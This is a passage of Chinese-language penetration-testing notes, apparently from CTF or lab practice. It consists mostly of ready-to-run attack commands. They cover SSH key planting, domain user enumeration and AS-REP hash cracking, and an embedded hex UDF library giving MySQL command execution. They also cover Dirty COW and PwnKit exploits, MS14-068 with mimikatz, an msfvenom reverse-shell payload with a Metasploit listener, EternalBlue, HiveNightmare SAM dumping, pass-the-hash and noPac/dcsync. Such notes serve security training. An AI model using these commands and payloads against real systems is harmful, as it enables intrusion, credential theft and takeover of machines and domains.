echo "~/.ssh/id_rsa.pub的内容" > /root/.ssh/authorized_keys
chmod 600 /root/.ssh/authorized_keys

ssh -i ~/.ssh/id_rsa root@39.99.140.174
```

## smbclient 上传文件

使用smbclient上传文件，位置：

`C:\Users\Administrator\Desktop\工具\内网渗透\impacket-master\impacket-master\examples\`

```python
python3 smbclient.py ./administrator:jason@123@192.168.51.33 
```

- 连接文件服务器

先看172.22.9.47 文件服务器，刚好也开了445端口（TCP端口），直接可以连接

```cobol
proxychains smbclient -L 172.22.9.47
```


查看共享文件

```cobol
proxychains smbclient //172.22.9.47/fileshare
```


## wget上传文件

开放端口，然后下载

# 内网域分析

## 域用户枚举并爆破

使用kerbrute_linux_amd64工具

-d 是域名

user.txt是收集到的用户名（来源于数据库）

```shell
./kerbrute_linux_amd64  userenum --dc 172.22.6.12 -d xiaorang.lab user.txt -o exist_user.txt
```

 将符合的用户再次筛选，这个脚本会尝试获得并列出不需要Kerberos域认证(UF_DONT_REQUIRE_PREAUTH)的用户，输出和JtR兼容。

```
impacket-GetNPUsers -dc-ip 172.22.6.12  xiaorang.lab/  -usersfile ~/user1.txt
```

John来破解hash

```
john /tmp/hash.txt
john /tmp/hash
```

## 域内信息收集

```shell
systeminfo
ipconfig /all
net time /do
#/do的意思是/domain的缩写，domain即为域
```

## BloodHound-内网关系分析

下载最新版本之后解压下载文件，打开 bin 目录，执行命令`neo4j.bat console`，之后打开浏览器访问 http://localhost:7474 登陆后台，输入以下信息连接到数据库说明安装就完成了。

```text
URL：neo4j://localhost:7687
用户名(默认)：neo4j
密码(默认)：neo4j
```

安装完成 BloodHound 后，需要进行数据的采集与导入，数据的采集可以使用 ps1 脚本或者使用 exe 程序收集，工具下载地址：[https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors](https://link.zhihu.com/?target=https%3A//github.com/BloodHoundAD/BloodHound/tree/master/Collectors)

这里使用 SharpHound.exe 进行数据的采集，将 SharpHound.exe 拷贝到目标上，执行 `SharpHound.exe -c all` 进行数据采集。

```text
C:\Users\daniel10>SharpHound.exe -c all
---------------------------------------------
Initializing SharpHound at 22:36 on 2021/2/25
---------------------------------------------
Resolved Collection Methods: Group, Sessions, LoggedOn, Trusts, ACL, ObjectProps, LocalGroups, SPNTargets, Container
[+] Creating Schema map for domain TEAMSSIX.COM using path CN=Schema,CN=Configuration,DC=teamssix,DC=com
[+] Cache File Found! Loaded 1332 Objects in cache
[+] Pre-populating Domain Controller SIDS
Status: 0 objects finished (+0) -- Using 24 MB RAM
Status: 673 objects finished (+673 134.6)/s -- Using 43 MB RAM
Enumeration finished in 00:00:05.3136324
Compressing data to .\20210225223622_BloodHound.zip
You can upload this file directly to the UI
SharpHound Enumeration Completed at 22:36 on 2021/2/25! Happy Graphing!
```

采集到的数据会以 zip 压缩包的格式保存，将其拷贝到 BloodHound 所在主机上，在 BloodHound 右侧图标里点击 Upload Data，之后上传刚才生成的压缩包就可以导入数据了。


## 获取RDP凭证信息

尝试读取该凭证信息，将`Win10_tools`主机`C:\Users\Administrator\AppData\Local\Rolan\Intranet\`目录下的`get_rdp_pass_x64`文件夹复制粘贴到`192.168.12.55`主机的远程桌面中：


在`get_rdp_pass_x64`目录下启动命令行执行命令获取凭证信息：

```
get_rdp_pass.bat
```


在远处桌面连接窗口中点击`Connect`进行登录：


# 内网域关系渗透

## UDF提权

### 手动提权

登录数据库

查看`plugin_dir`，获得数据库插件的物理路径：

```
show variables like "%plugin%";
```

查看是否满足udf提权条件：

```
show variables like "%secure_file%";
```

`secure_file_priv`值为空，可以进行udf提权；

将udf十六进制导入为`udf.so`并写入`plugin_dir`目录中；执行下方代码块的内容：

```sql
select unhex('7F454C4602010100000000000000000003003E0001000000800A000000000000400000000000000058180000000000000000000040003800060040001C0019000100000005000000000000000000000000000000000000000000000000000000C414000000000000C41400000000000000002000000000000100000006000000C814000000000000C814200000000000C8142000000000004802000000000000580200000000000000002000000000000200000006000000F814000000000000F814200000000000F814200000000000800100000000000080010000000000000800000000000000040000000400000090010000000000009001000000000000900100000000000024000000000000002400000000000000040000000000000050E574640400000044120000000000004412000000000000441200000000000084000000000000008400000000000000040000000000000051E5746406000000000000000000000000000000000000000000000000000000000000000000000000000000000000000800000000000000040000001400000003000000474E5500D7FF1D94176ABA0C150B4F3694D2EC995AE8E1A8000000001100000011000000020000000700000080080248811944C91CA44003980468831100000013000000140000001600000017000000190000001C0000001E000000000000001F00000000000000200000002100000022000000230000002400000000000000CE2CC0BA673C7690EBD3EF0E78722788B98DF10ED971581CA868BE12BBE3927C7E8B92CD1E7066A9C3F9BFBA745BB073371974EC4345D5ECC5A62C1CC3138AFF3B9FD4A0AD73D1C50B5911FEAB5FBE1200000000000000000000000000000000000000000000000000000000000000000300090088090000000000000000000000000000010000002000000000000000000000000000000000000000250000002000000000000000000000000000000000000000CD00000012000000000000000000000000000000000000001E0100001200000000000000000000000000000000000000620100001200000000000000000000000000000000000000E30000001200000000000000000000000000000000000000B90000001200000000000000000000000000000000000000680100001200000000000000000000000000000000000000160000002200000000000000000000000000000000000000540000001200000000000000000000000000000000000000F00000001200000000000000000000000000000000000000B200000012000000000000000000000000000000000000005A01000012000000000000000000000000000000000000005201000012000000000000000000000000000000000000004C0100001200000000000000000000000000000000000000E800000012000B00D10D000000000000D1000000000000003301000012000B00A90F0000000000000A000000000000001000000012000C00481100000000000000000000000000007800000012000B009F0B0000000000004C00000000000000FF0000001200090088090000000000000000000000000000800100001000F1FF101720000000000000000000000000001501000012000B00130F0000000000002F000000000000008C0100001000F1FF201720000000000000000000000000009B00000012000B00480C0000000000000A000000000000002501000012000B00420F0000000000006700000000000000AA00000012000B00520C00000000000063000000000000005B00000012000B00950B0000000000000A000000000000008E00000012000B00EB0B0000000000005D00000000000000790100001000F1FF101720000000000000000000000000000501000012000B00090F0000000000000A00000000000000C000000012000B00B50C000000000000F100000000000000F700000012000B00A20E00000000000067000000000000003900000012000B004C0B0000000000004900000000000000D400000012000B00A60D0000000000002B000000000000004301000012000B00B30F0000000000005501000000000000005F5F676D6F6E5F73746172745F5F005F66696E69005F5F6378615F66696E616C697A65005F4A765F5265676973746572436C6173736573006C69625F6D7973716C7564665F7379735F696E666F5F696E6974006D656D637079006C69625F6D7973716C7564665F7379735F696E666F5F6465696E6974006C69625F6D7973716C7564665F7379735F696E666F007379735F6765745F696E6974007379735F6765745F6465696E6974007379735F67657400676574656E76007374726C656E007379735F7365745F696E6974006D616C6C6F63007379735F7365745F6465696E69740066726565007379735F73657400736574656E76007379735F657865635F696E6974007379735F657865635F6465696E6974007379735F657865630073797374656D007379735F6576616C5F696E6974007379735F6576616C5F6465696E6974007379735F6576616C00706F70656E007265616C6C6F63007374726E6370790066676574730070636C6F7365006C6962632E736F2E36005F6564617461005F5F6273735F7374617274005F656E6400474C4942435F322E322E3500000000000000000000020002000200020002000200020002000200020002000200020001000100010001000100010001000100010001000100010001000100010001000100010001000100010001006F0100001000000000000000751A6909000002009101000000000000F0142000000000000800000000000000F0142000000000007816200000000000060000000200000000000000000000008016200000000000060000000300000000000000000000008816200000000000060000000A0000000000000000000000A81620000000000007000000040000000000000000000000B01620000000000007000000050000000000000000000000B81620000000000007000000060000000000000000000000C01620000000000007000000070000000000000000000000C81620000000000007000000080000000000000000000000D01620000000000007000000090000000000000000000000D816200000000000070000000A0000000000000000000000E016200000000000070000000B0000000000000000000000E816200000000000070000000C0000000000000000000000F016200000000000070000000D0000000000000000000000F816200000000000070000000E00000000000000000000000017200000000000070000000F00000000000000000000000817200000000000070000001000000000000000000000004883EC08E8EF000000E88A010000E8750700004883C408C3FF35F20C2000FF25F40C20000F1F4000FF25F20C20006800000000E9E0FFFFFFFF25EA0C20006801000000E9D0FFFFFFFF25E20C20006802000000E9C0FFFFFFFF25DA0C20006803000000E9B0FFFFFFFF25D20C20006804000000E9A0FFFFFFFF25CA0C20006805000000E990FFFFFFFF25C20C20006806000000E980FFFFFFFF25BA0C20006807000000E970FFFFFFFF25B20C20006808000000E960FFFFFFFF25AA0C20006809000000E950FFFFFFFF25A20C2000680A000000E940FFFFFFFF259A0C2000680B000000E930FFFFFFFF25920C2000680C000000E920FFFFFF4883EC08488B05ED0B20004885C07402FFD04883C408C390909090909090909055803D680C2000004889E5415453756248833DD00B200000740C488D3D2F0A2000E84AFFFFFF488D1D130A20004C8D25040A2000488B053D0C20004C29E348C1FB034883EB014839D873200F1F4400004883C0014889051D0C200041FF14C4488B05120C20004839D872E5C605FE0B2000015B415CC9C3660F1F84000000000048833DC009200000554889E5741A488B054B0B20004885C0740E488D3DA7092000C9FFE00F1F4000C9C39090554889E54883EC3048897DE8488975E0488955D8488B45E08B0085C07421488D0DE7050000488B45D8BA320000004889CE4889C7E89BFEFFFFC645FF01EB04C645FF000FB645FFC9C3554889E548897DF8C9C3554889E54883EC3048897DF8488975F0488955E848894DE04C8945D84C894DD0488D0DCA050000488B45E8BA1F0000004889CE4889C7E846FEFFFF488B45E048C7001E000000488B45E8C9C3554889E54883EC2048897DF8488975F0488955E8488B45F08B0083F801751C488B45F0488B40088B0085C0750E488B45F8C60001B800000000EB20488D0D83050000488B45E8BA2B0000004889CE4889C7E8DFFDFFFFB801000000C9C3554889E548897DF8C9C3554889E54883EC4048897DE8488975E0488955D848894DD04C8945C84C894DC0488B45E0488B4010488B004889C7E8BBFDFFFF488945F848837DF8007509488B45C8C60001EB16488B45F84889C7E84BFDFFFF4889C2488B45D0488910488B45F8C9C3554889E54883EC2048897DF8488975F0488955E8488B45F08B0083F8027425488D0D05050000488B45E8BA1F0000004889CE4889C7E831FDFFFFB801000000E9AB000000488B45F0488B40088B0085C07422488D0DF2040000488B45E8BA280000004889CE4889C7E8FEFCFFFFB801000000EB7B488B45F0488B40084883C004C70000000000488B45F0488B4018488B10488B45F0488B40184883C008488B00488D04024883C0024889C7E84BFCFFFF4889C2488B45F848895010488B45F8488B40104885C07522488D0DA4040000488B45E8BA1A0000004889CE4889C7E888FCFFFFB801000000EB05B800000000C9C3554889E54883EC1048897DF8488B45F8488B40104885C07410488B45F8488B40104889C7E811FCFFFFC9C3554889E54883EC3048897DE8488975E0488955D848894DD0488B45E8488B4010488945F0488B45E0488B4018488B004883C001480345F0488945F8488B45E0488B4018488B10488B45E0488B4010488B08488B45F04889CE4889C7E8EFFBFFFF488B45E0488B4018488B00480345F0C60000488B45E0488B40184883C008488B10488B45E0488B40104883C008488B08488B45F84889CE4889C7E8B0FBFFFF488B45E0488B40184883C008488B00480345F8C60000488B4DF8488B45F0BA010000004889CE4889C7E892FBFFFF4898C9C3554889E54883EC3048897DE8488975E0488955D8C745FC00000000488B45E08B0083F801751F488B45E0488B40088B55FC48C1E2024801D08B0085C07507B800000000EB20488D0DC2020000488B45D8BA2B0000004889CE4889C7E81EFBFFFFB801000000C9C3554889E548897DF8C9C3554889E54883EC2048897DF8488975F0488955E848894DE0488B45F0488B4010488B004889C7E882FAFFFF4898C9C3554889E54883EC3048897DE8488975E0488955D8C745FC00000000488B45E08B0083F801751F488B45E0488B40088B55FC48C1E2024801D08B0085C07507B800000000EB20488D0D22020000488B45D8BA2B0000004889CE4889C7E87EFAFFFFB801000000C9C3554889E548897DF8C9C3554889E54881EC500400004889BDD8FBFFFF4889B5D0FBFFFF488995C8FBFFFF48898DC0FBFFFF4C8985B8FBFFFF4C898DB0FBFFFFBF01000000E8BEF9FFFF488985C8FBFFFF48C745F000000000488B85D0FBFFFF488B4010488B00488D352C0200004889C7E852FAFFFF488945E8EB63488D85E0FBFFFF4889C7E8BDF9FFFF488945F8488B45F8488B55F04801C2488B85C8FBFFFF4889D64889C7E80CFAFFFF488985C8FBFFFF488D85E0FBFFFF488B55F0488B8DC8FBFFFF4801D1488B55F84889C64889CFE8D1F9FFFF488B45F8480145F0488B55E8488D85E0FBFFFFBE000400004889C7E831F9FFFF4885C07580488B45E84889C7E850F9FFFF488B85C8FBFFFF0FB60084C0740A4883BDC8FBFFFF00750C488B85B8FBFFFFC60001EB2B488B45F0488B95C8FBFFFF488D0402C60000488B85C8FBFFFF4889C7E8FBF8FFFF488B95C0FBFFFF488902488B85C8FBFFFFC9C39090909090909090554889E5534883EC08488B05A80320004883F8FF7419488D1D9B0320000F1F004883EB08FFD0488B034883F8FF75F14883C4085BC9C390904883EC08E84FF9FFFF4883C408C300004E6F20617267756D656E747320616C6C6F77656420287564663A206C69625F6D7973716C7564665F7379735F696E666F29000000000000006C69625F6D7973716C7564665F7379732076657273696F6E20302E302E33000045787065637465642065786163746C79206F6E6520737472696E67207479706520706172616D6574657200000000000045787065637465642065786163746C792074776F20617267756D656E74730000457870656374656420737472696E67207479706520666F72206E616D6520706172616D6574657200436F756C64206E6F7420616C6C6F63617465206D656D6F7279007200011B033B800000000F00000008F9FFFF9C00000051F9FFFFBC0000005BF9FFFFDC000000A7F9FFFFFC00000004FAFFFF1C0100000EFAFFFF3C01000071FAFFFF5C01000062FBFFFF7C0100008DFBFFFF9C0100005EFCFFFFBC010000C5FCFFFFDC010000CFFCFFFFFC010000FEFCFFFF1C02000065FDFFFF3C0200006FFDFFFF5C0200001400000000000000017A5200017810011B0C0708900100001C0000001C00000064F8FFFF4900000000410E108602430D0602440C070800001C0000003C0000008DF8FFFF0A00000000410E108602430D06450C07080000001C0000005C00000077F8FFFF4C00000000410E108602430D0602470C070800001C0000007C000000A3F8FFFF5D00000000410E108602430D0602580C070800001C0000009C000000E0F8FFFF0A00000000410E108602430D06450C07080000001C000000BC000000CAF8FFFF6300000000410E108602430D06025E0C070800001C000000DC0000000DF9FFFFF100000000410E108602430D0602EC0C070800001C000000FC000000DEF9FFFF2B00000000410E108602430D06660C07080000001C0000001C010000E9F9FFFFD100000000410E108602430D0602CC0C070800001C0000003C0100009AFAFFFF6700000000410E108602430D0602620C070800001C0000005C010000E1FAFFFF0A00000000410E108602430D06450C07080000001C0000007C010000CBFAFFFF2F00000000410E108602430D066A0C07080000001C0000009C010000DAFAFFFF6700000000410E108602430D0602620C070800001C000000BC01000021FBFFFF0A00000000410E108602430D06450C07080000001C000000DC0100000BFBFFFF5501000000410E108602430D060350010C0708000000000000000000FFFFFFFFFFFFFFFF0000000000000000FFFFFFFFFFFFFFFF00000000000000000000000000000000F01420000000000001000000000000006F010000000000000C0000000000000088090000000000000D000000000000004811000000000000F5FEFF6F00000000B8010000000000000500000000000000E805000000000000060000000000000070020000000000000A000000000000009D010000000000000B000000000000001800000000000000030000000000000090162000000000000200000000000000380100000000000014000000000000000700000000000000170000000000000050080000000000000700000000000000F0070000000000000800000000000000600000000000000009000000000000001800000000000000FEFFFF6F00000000D007000000000000FFFFFF6F000000000100000000000000F0FFFF6F000000008607000000000000F9FFFF6F0000000001000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000F81420000000000000000000000000000000000000000000B609000000000000C609000000000000D609000000000000E609000000000000F609000000000000060A000000000000160A000000000000260A000000000000360A000000000000460A000000000000560A000000000000660A000000000000760A0000000000004743433A2028474E552920342E342E3720323031323033313320285265642048617420342E342E372D3429004743433A2028474E552920342E342E3720323031323033313320285265642048617420342E342E372D31372900002E73796D746162002E737472746162002E7368737472746162002E6E6F74652E676E752E6275696C642D6964002E676E752E68617368002E64796E73796D002E64796E737472002E676E752E76657273696F6E002E676E752E76657273696F6E5F72002E72656C612E64796E002E72656C612E706C74002E696E6974002E74657874002E66696E69002E726F64617461002E65685F6672616D655F686472002E65685F6672616D65002E63746F7273002E64746F7273002E6A6372002E646174612E72656C2E726F002E64796E616D6963002E676F74002E676F742E706C74002E627373002E636F6D6D656E7400000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000001B0000000700000002000000000000009001000000000000900100000000000024000000000000000000000000000000040000000000000000000000000000002E000000F6FFFF6F0200000000000000B801000000000000B801000000000000B400000000000000030000000000000008000000000000000000000000000000380000000B000000020000000000000070020000000000007002000000000000780300000000000004000000020000000800000000000000180000000000000040000000030000000200000000000000E805000000000000E8050000000000009D0100000000000000000000000000000100000000000000000000000000000048000000FFFFFF6F0200000000000000860700000000000086070000000000004A0000000000000003000000000000000200000000000000020000000000000055000000FEFFFF6F0200000000000000D007000000000000D007000000000000200000000000000004000000010000000800000000000000000000000000000064000000040000000200000000000000F007000000000000F00700000000000060000000000000000300000000000000080000000000000018000000000000006E000000040000000200000000000000500800000000000050080000000000003801000000000000030000000A000000080000000000000018000000000000007800000001000000060000000000000088090000000000008809000000000000180000000000000000000000000000000400000000000000000000000000000073000000010000000600000000000000A009000000000000A009000000000000E0000000000000000000000000000000040000000000000010000000000000007E000000010000000600000000000000800A000000000000800A000000000000C80600000000000000000000000000001000000000000000000000000000000084000000010000000600000000000000481100000000000048110000000000000E000000000000000000000000000000040000000000000000000000000000008A00000001000000020000000000000058110000000000005811000000000000EC0000000000000000000000000000000800000000000000000000000000000092000000010000000200000000000000441200000000000044120000000000008400000000000000000000000000000004000000000000000000000000000000A0000000010000000200000000000000C812000000000000C812000000000000FC01000000000000000000000000000008000000000000000000000000000000AA000000010000000300000000000000C814200000000000C8140000000000001000000000000000000000000000000008000000000000000000000000000000B1000000010000000300000000000000D814200000000000D8140000000000001000000000000000000000000000000008000000000000000000000000000000B8000000010000000300000000000000E814200000000000E8140000000000000800000000000000000000000000000008000000000000000000000000000000BD000000010000000300000000000000F014200000000000F0140000000000000800000000000000000000000000000008000000000000000000000000000000CA000000060000000300000000000000F814200000000000F8140000000000008001000000000000040000000000000008000000000000001000000000000000D3000000010000000300000000000000781620000000000078160000000000001800000000000000000000000000000008000000000000000800000000000000D8000000010000000300000000000000901620000000000090160000000000008000000000000000000000000000000008000000000000000800000000000000E1000000080000000300000000000000101720000000000010170000000000001000000000000000000000000000000008000000000000000000000000000000E60000000100000030000000000000000000000000000000101700000000000059000000000000000000000000000000010000000000000001000000000000001100000003000000000000000000000000000000000000006917000000000000EF00000000000000000000000000000001000000000000000000000000000000010000000200000000000000000000000000000000000000581F00000000000068070000000000001B0000002C00000008000000000000001800000000000000090000000300000000000000000000000000000000000000C02600000000000042030000000000000000000000000000010000000000000000000000000000000000000000000000000000000000000000000000000000000000000003000100900100000000000000000000000000000000000003000200B80100000000000000000000000000000000000003000300700200000000000000000000000000000000000003000400E80500000000000000000000000000000000000003000500860700000000000000000000000000000000000003000600D00700000000000000000000000000000000000003000700F00700000000000000000000000000000000000003000800500800000000000000000000000000000000000003000900880900000000000000000000000000000000000003000A00A00900000000000000000000000000000000000003000B00800A00000000000000000000000000000000000003000C00481100000000000000000000000000000000000003000D00581100000000000000000000000000000000000003000E00441200000000000000000000000000000000000003000F00C81200000000000000000000000000000000000003001000C81420000000000000000000000000000000000003001100D81420000000000000000000000000000000000003001200E81420000000000000000000000000000000000003001300F01420000000000000000000000000000000000003001400F81420000000000000000000000000000000000003001500781620000000000000000000000000000000000003001600901620000000000000000000000000000000000003001700101720000000000000000000000000000000000003001800000000000000000000000000000000000100000002000B00800A0000000000000000000000000000110000000400F1FF000000000000000000000000000000001C00000001001000C81420000000000000000000000000002A00000001001100D81420000000000000000000000000003800000001001200E81420000000000000000000000000004500000002000B00A00A00000000000000000000000000005B00000001001700101720000000000001000000000000006A00000001001700181720000000000008000000000000007800000002000B00200B0000000000000000000000000000110000000400F1FF000000000000000000000000000000008400000001001000D01420000000000000000000000000009100000001000F00C01400000000000000000000000000009F00000001001200E8142000000000000000000000000000AB00000002000B0010110000000000000000000000000000C10000000400F1FF00000000000000000000000000000000D40000000100F1FF90162000000000000000000000000000EA00000001001300F0142000000000000000000000000000F700000001001100E0142000000000000000000000000000040100000100F1FFF81420000000000000000000000000000D01000012000B00D10D000000000000D1000000000000001501000012000B00130F0000000000002F000000000000001E01000020000000000000000000000000000000000000002D01000020000000000000000000000000000000000000004101000012000C00481100000000000000000000000000004701000012000B00A90F0000000000000A000000000000005701000012000000000000000000000000000000000000006B01000012000000000000000000000000000000000000007F01000012000B00A20E00000000000067000000000000008D01000012000B00B30F0000000000005501000000000000960100001200000000000000000000000000000000000000A901000012000B00950B0000000000000A00000000000000C601000012000B00B50C000000000000F100000000000000D30100001200000000000000000000000000000000000000E50100001200000000000000000000000000000000000000F901000012000000000000000000000000000000000000000D02000012000B004C0B00000000000049000000000000002802000022000000000000000000000000000000000000004402000012000B00A60D0000000000002B000000000000005302000012000B00EB0B0000000000005D000000000000006002000012000B00480C0000000000000A000000000000006F02000012000000000000000000000000000000000000008302000012000B00420F0000000000006700000000000000910200001200000000000000000000000000000000000000A50200001200000000000000000000000000000000000000B902000012000B00520C0000000000006300000000000000C10200001000F1FF10172000000000000000000000000000CD02000012000B009F0B0000000000004C00000000000000E30200001000F1FF20172000000000000000000000000000E80200001200000000000000000000000000000000000000FD02000012000B00090F0000000000000A000000000000000D0300001200000000000000000000000000000000000000220300001000F1FF101720000000000000000000000000002903000012000000000000000000000000000000000000003C03000012000900880900000000000000000000000000000063616C6C5F676D6F6E5F73746172740063727473747566662E63005F5F43544F525F4C4953545F5F005F5F44544F525F4C4953545F5F005F5F4A43525F4C4953545F5F005F5F646F5F676C6F62616C5F64746F72735F61757800636F6D706C657465642E363335320064746F725F6964782E36333534006672616D655F64756D6D79005F5F43544F525F454E445F5F005F5F4652414D455F454E445F5F005F5F4A43525F454E445F5F005F5F646F5F676C6F62616C5F63746F72735F617578006C69625F6D7973716C7564665F7379732E63005F474C4F42414C5F4F46465345545F5441424C455F005F5F64736F5F68616E646C65005F5F44544F525F454E445F5F005F44594E414D4943007379735F736574007379735F65786563005F5F676D6F6E5F73746172745F5F005F4A765F5265676973746572436C6173736573005F66696E69007379735F6576616C5F6465696E6974006D616C6C6F634040474C4942435F322E322E350073797374656D4040474C4942435F322E322E35007379735F657865635F696E6974007379735F6576616C0066676574734040474C4942435F322E322E35006C69625F6D7973716C7564665F7379735F696E666F5F6465696E6974007379735F7365745F696E697400667265654040474C4942435F322E322E35007374726C656E4040474C4942435F322E322E350070636C6F73654040474C4942435F322E322E35006C69625F6D7973716C7564665F7379735F696E666F5F696E6974005F5F6378615F66696E616C697A654040474C4942435F322E322E35007379735F7365745F6465696E6974007379735F6765745F696E6974007379735F6765745F6465696E6974006D656D6370794040474C4942435F322E322E35007379735F6576616C5F696E697400736574656E764040474C4942435F322E322E3500676574656E764040474C4942435F322E322E35007379735F676574005F5F6273735F7374617274006C69625F6D7973716C7564665F7379735F696E666F005F656E64007374726E6370794040474C4942435F322E322E35007379735F657865635F6465696E6974007265616C6C6F634040474C4942435F322E322E35005F656461746100706F70656E4040474C4942435F322E322E35005F696E697400')into dumpfile '/usr/lib64/mysql/plugin/udf.so';
##文件路径
```

创建自定义函数`sys_eval`：

```sql
create function sys_eval returns string soname "udf.so";
```

查看当前用户：

```
select sys_eval('whoami');
->mysql

select sys_eval('cat ../../../flag');
```


### MDUT工具提权

登录数据库，然后点击UDF提权就可以

## NFS提权

前提：要有ftp的提权漏洞

先将nfs挂在到本地，然后设置好ssh的配置文件，然后连接ssh，通过在另一台机器上下载文件，来得到目标

```
mkdir /temp/
mount -t nfs 172.22.13.57:/ /temp -o nolock
```

```
ssh-keygen -t rsa -b 4096
cp /root/.ssh/id_rsa.pub /temp/home/joyce/.ssh/
cat id_rsa.pub >> /temp/home/joyce/.ssh/authorized_keys
python3 -c 'import pty;pty.spawn("/bin/bash")'
ssh -i /root/.ssh/id_rsa joyce@172.22.13.57
```

开启ftp端口，下面用的时ftp提权漏洞，然后下载到另一个服务器上，然后查看

```
python3 -m pyftpdlib -p 2223 -u test -P test -w &
ftp 172.22.13.14 2223
test
test
put /flag02.txt
```

## root提权

https://gtfobins.github.io/

上网页查找对应的root提权漏洞

```
find / -perm -u=s -type f 2>/dev/null
```


```undefined
sudo -l
```


使用diff得到flag01

```cobol
diff --line-format=%L /dev/null /home/flag/flag01.txt
```


## linux提权漏洞

### linux-脏牛漏洞(CVE-2016-5195)

查看系统内核版本，符合脏牛提权：

```
uname -a
```


将`Win10`主机`C:\Users\Administrator\Desktop\工具\exp`目录下的`CVE-2016-5195-master.zip`文件通过拖拽的方式上传至`10.10.10.62`主机的`/home/test123/`目录下：


终端执行命令：

```
cd /home/test123/

unzip CVE-2016-5195-master.zip

cd CVE-2016-5195-master

make

./dcow
```


登录验证：

```
su root

dirtyCowFun

cat /root/flag
```


### linux-CVE-2021-4034

编译poc.c

```sh
cd /tmp
chmod 777 poc.c
gcc poc.c -o poc
```


执行编译文件，提权成功

```
./poc
```


另一种处理方式


```
unzip CVE-2021-4034-main.zip
```


将文件进行编译：

```
ls

cd CVE-2021-4034-main

make
```


编译完成后运行并查看权限：

```
./cve-2021-4034

whoami
```


查找并查看flag：

```
find / -name flag

cat /root/flag
```


## windows提权漏洞

### MS14-068漏洞

说明：该漏洞可能允许攻击者将未经授权的域用户账户的权限,提权到域管理员的权限。

检查是否存在MS14-068漏洞：

```
systeminfo |find "3011780"   
```


没有回显表示未打补丁，查看当前用户是否有域管权限：

```
dir \\scene.cyber123.com\c$
```


权限不足，将`Win10_tools`主机`C:\Users\Administrator\AppData\Local\Rolan\Intranet`目录下的`MS14-068.exe`文件和`mimikatz.exe`文件复制粘贴到`192.168.14.51`的远程桌面中：


查看当前用户SID：

```
whoami /user
```


使用提权工具进行提权：

```
cd Desktop  //进入工具所在目录

MS14-068.exe -u LL@cyber123.com -p Llyoyo123# -s S-1-5-21-2718660907-658632824-2072795563-1104 -d scene.cyber123.com  //生成凭据
```


生成的凭证保存在桌面：


双击`mimikatz.exe`文件运行工具，清空凭证：

```
kerberos::purge
```


通过拖拽文件的方式导入伪造的凭证：

```
kerberos::ptc 凭证的绝对路径
```


在命令行中再次执行`dir \\scene.cyber123.com\c$`，出现回显表示提权成功：


### ms16-075-提权

登录`Kali`主机右键打开终端，执行命令：

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.88.88.8 lport=4444 -f exe > shell.exe
```


输入命令建立Web服务：

```
python3 -m http.server 8888
```


`Kali`主机中打开新的终端启动监听：

```
msfconsole

use exploit/multi/handler 

set payload windows/meterpreter/reverse_tcp

set lhost 10.88.88.8  

set lport 4444  

run
```


回到`Win10`主机的蚁剑中，在`shell.exe`所在目录下右键打开终端，执行命令：

```
shell.exe
```


回到`Kali`主机的MSF中，获取到会话：


查看权限：


输入`background`退出会话，获得`session id`：


我们可以利用`MS16-075`的payload进行提权：

    use exploit/windows/local/ms16_075_reflection_juicy
    
    set session 1
    
    run


查看权限：


### ms17_010-永恒之蓝提权

目标开放445端口，测试是否存在永恒之蓝，启动终端执行命令：

```
proxychains4 msfconsole

use exploit/windows/smb/ms17_010_eternalblue

set payload windows/x64/meterpreter/bind_tcp

set rhost 10.10.10.182

run
```

获取到会话：


查看权限：


加载kiwi模块：

```
load kiwi
```



获取主机账户密码。

```
creds_kerberos
```


### CVE-2021-36934-hash提权

查看当前用户信息，检测当前主机是否容易受到攻击：

```
icacls C:\windows\system32\config\sam
```


输出`BUILTIN\Users:(I)(RX)`表示该系统易受攻击。

将`Win10`主机`C:\Users\Administrator\Desktop\工具\exp\CVE-2021-36934`目录下的`HiveNightmare.exe`文件复制粘贴至远程主机`192.168.2.150`的桌面中：


命令行中执行命令：

```
cd Desktop

HiveNightmare.exe
```


桌面出现三个文件：


将这三个文件复制粘贴至`Win10`主机的`C:\Users\Administrator\Desktop\工具\内网渗透\impacket-master\impacket-master\examples`目录下，在该目录下打开命令行执行命令：

```
python3 secretsdump.py -sam SAM-2022-06-20 -system SYSTEM-2022-06-20 -security SECURITY-2022-06-20 LOCAL

##SAM-2022-06-20、SYSTEM-2022-06-20、SECURITY-2022-06-20为生成的文件名，请以实际情况进行填写。
```


获取到密码hash：


再执行命令进行横向移动：

```
python3 psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:5d3d0d5e35d5b0c22f7617f472c859c0 administrator@192.168.2.150 cmd.exe
```


查看当前权限：


### CVE-2021-42287/CVE-2021-42278-[noPac](https://github.com/cube0x0/noPac#nopac)

漏洞验证：

    noPac.exe scan -domain god.org -user liukaifeng01 -pass "hongrisec@2021@"


利用漏洞生成文件服务票据并访问域控文件：

这个漏洞需要新建一个机器账户， -mAccount为新建机器账户名，-mPassword为密码

    noPac.exe -domain god.org -user liukaifeng01 -pass "hongrisec@2021@" /dc owa.god.org /mAccount testpc /mPassword testpassword /service cifs /ptt
    noPac.exe -domain god.org -user liukaifeng01 -pass "hongrisec@2021@" /dc owa.god.org /mAccount testpc /mPassword testpassword /service ldap /ptt
    申请cifs和ldap


这里只生成了一个文件服务的票据，但是还是无法访问域控文件：


我又继续生成一个ldap服务的票据，成功访问文件服务：


同样可以dcsync，获取域内所有hash：


然后破解hash等操作

